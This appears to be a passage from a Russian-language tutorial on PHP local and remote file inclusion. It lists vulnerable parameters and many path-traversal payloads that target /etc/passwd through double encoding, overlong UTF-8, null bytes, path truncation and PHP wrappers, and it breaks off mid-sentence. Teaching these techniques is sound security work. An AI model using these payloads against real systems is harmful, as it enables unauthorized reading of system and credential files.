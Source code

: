 ```
http://vulnerable_host/index.php?display= http://vulnerable_host/index.php?lang= 
http://vulnerable_host/index.php?path= http://vulnerable_host/index.php?file= 
http://vulnerable_host/index.php?page= http://vulnerable_host/index.php?preview= http://vulnerable_host/index.php?url= 
```

### Реальные примеры и обход фильтров

#### Double encoding

Двойное кодирование в url позволяет обходить некоторые фильтры в силу того, что в фильтрах путь до файла будет закодирован, но раскодируется к моменту исполнения:

```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

#### Засорение путей

```
http://example.com/index.php?page=....//....//etc/passwd 
http://example.com/index.php?page=..///////..////..//////etc/passwd 
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../% 5C../%5C../%5C../%5C../%5C../etc/passwd 
http://example.com/index.php?page=..%2f..%2f..%2f..%2fetc%2fpasswd 
http://example.com/index.php?page=%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/ passwd 
http://example.com/index.php?page=..%252f..%252f..%252f..%252f..%252fetc% 252fpasswd 
http://example.com/index.php?page=..%255c..%255c..%255c..%255cetc%255cp asswd 
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%af..%c0%afetc%c 0%afpasswd 
http://example.com/index.php?page=%252e%252e\%252e%252e\%252e%252 e\etc\passwd 
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%af..%c0%afetc%c 0%afpasswd 
http://example.com/index.php?page=..%c1%9c..%c1%9c..%c1%9c..%c1%9cetc% c1%9cpasswd
```

#### Сокращение путей

```
http://example.com/index.php?page=../../../../../../../../../etc/passwd..\.\.\.\.\.\.\. \.\.\.\[ADD MORE]\.\. 
http://example.com/index.php?page=../../../../[...]../../../../../etc/passwd
```

#### Потоки и врапперы

Кроме `http://`, при атаках на RFI можно также использовать `php://`, `file://`, `zip://`, `data://`, `expect://`, `input://`, `phar://`. Это называется врапперами, полный и обновляемый список которых можно посмотреть на официальном сайте вместе с описанием

Многие из врапперов можно использовать не только с RFI, но и с LFI, при том же условии, что в начале пути не будет ничего лишнего (например, разработчик может вставлять в начало строки `/usr/share/includes/(и далее строка, полученная из URL)`). Конечно, все эти врапперы могут фильтроваться либо фаерволом, либо самим исполняемым php-кодом.

Так, например, если в строке фильтруются все точки, то следующий запрос не сработает:
